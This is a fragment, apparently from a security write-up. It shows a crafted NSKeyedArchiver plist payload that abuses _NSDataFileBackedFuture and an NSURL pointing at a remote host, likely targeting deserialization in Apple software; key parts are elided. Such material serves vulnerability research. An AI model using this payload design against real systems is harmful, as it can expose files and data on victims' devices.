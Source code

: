 ```js
    }
});
```

### obj (in XML)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>$archiver</key>
	<string>NSKeyedArchiver</string>
	<key>$objects</key>
	<array>
...

		<string>http://develacker.me//System/Library/ColorSync/Resources/ColorTables.data</string>
		<dict>
			<key>$classes</key>
			<array>
				<string>NSURL</string>
				<string>NSObject</string>
			</array>
			<key>$classname</key>
			<string>NSURL</string>
		</dict>
		<dict>
			<key>$classes</key>
			<array>
				<string>NSDictionary</string>
				<string>NSObject</string>
			</array>
			<key>$classname</key>
			<string>NSDictionary</string>
		</dict>
        <dict>
            <key>$classes</key>
            <array>
                <string>_NSDataFileBackedFuture</string>
                <string>NSObject</string>
            </array>
            <key>$classname</key>
            <string>_NSDataFileBackedFuture</string>
        </dict>        
...
        <dict>
            <key>$class</key>
            <dict>
                <key>CF$UID</key>
                <integer>7</integer>
            </dict>
            <key>NSFileURL</key>
            <dict>
                <key>CF$UID</key>
                <integer>3</integer>
            </dict>
            <key>NSFileSize</key>
            <integer>300</integer>
        </dict>
...
        <dict>
            <key>$class</key>
```